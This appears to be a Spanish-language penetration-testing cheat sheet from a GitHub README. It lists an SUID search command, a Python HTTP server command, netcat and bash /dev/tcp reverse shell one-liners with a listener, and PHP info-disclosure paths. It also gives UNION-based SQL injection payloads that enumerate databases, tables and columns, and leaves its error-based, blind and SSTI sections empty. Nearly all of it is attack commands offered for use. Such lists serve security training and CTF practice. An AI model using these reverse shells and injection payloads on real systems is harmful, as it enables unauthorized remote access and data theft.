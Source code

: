 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
Listar los permisos SUID:
```find  \-perm -4000 2>/dev/null```
### Python
Crear un servidor de python en mi máquina local:
```python3 -m http.server <PORT>```
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**:

``` nc -lnvp <PORT> ```
```
nc -e /bin/bash <MY_IP> <PORT>
bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1
bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1"
```
## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```
## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -
### Error Based
### Blind

## SERVER SITE TEMPLATE INJECTION (SSTI)


